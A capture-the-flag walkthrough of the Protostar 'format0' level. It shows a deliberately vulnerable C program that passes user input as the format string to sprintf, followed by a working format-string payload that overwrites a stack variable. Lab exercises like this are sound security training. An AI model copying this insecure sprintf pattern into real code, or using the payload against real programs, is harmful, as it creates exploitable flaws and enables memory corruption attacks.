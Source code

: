 #### Format0

###### About

- This level introduces format strings, and how attacker supplied format strings can modify the execution flow of programs.
- Hints
	- This level should be done in less than 10 bytes of input.
	- “Exploiting format string vulnerabilities”
- This level is at ``/opt/protostar/bin/format0``

``format0.c``

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

###### Solution

```sh
user@protostar:/opt/protostar/bin$ ./format0 AAAA
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./format0 `python -c "print '%64d\xef\xbe\xad\xde'"`
you have hit the target correctly :)
user@protostar:/opt/protostar/bin$
```